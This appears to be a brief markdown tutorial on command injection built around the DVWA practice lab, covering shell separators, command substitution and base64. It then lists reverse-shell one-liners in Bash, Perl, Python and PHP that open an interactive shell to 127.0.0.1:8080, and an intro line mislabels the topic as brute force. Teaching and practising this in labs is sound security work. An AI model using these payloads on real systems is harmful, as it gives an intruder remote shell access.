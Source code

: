 ## 1. Command Injection Attack

![](https://i.ytimg.com/vi/UBWMLFbjPBc/maxresdefault.jpg)
>We will use DVWA Labs To Learn Bruteforce Attacks

# Linux Command syntax
| Character | Action |
|--|--|
| ; | And |
| && | And |
| \|\| | Or |
| \| | Share Output To Second Command |
| * | It can be use as 'all' or  auto complete |
```
ls -lah /tmp
```
>ls = command to be executed, -lah = Options, /tmp = Argument

# Command Substitution

```
echo $(pwd)
echo `whoami`
```

# Base64 Encoding/Decoding

```
echo "yellphonenaing" | base64
Output => eWVsbHBob25lbmFpbmcK

echo "eWVsbHBob25lbmFpbmcK" | base64 -d
Output => yellphonenaing
```

#Reverse Shell Connection

**BASH**
```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

**Perl**
```
perl -e 'use Socket;$i="127.0.0.1";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("127.0.0.1",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
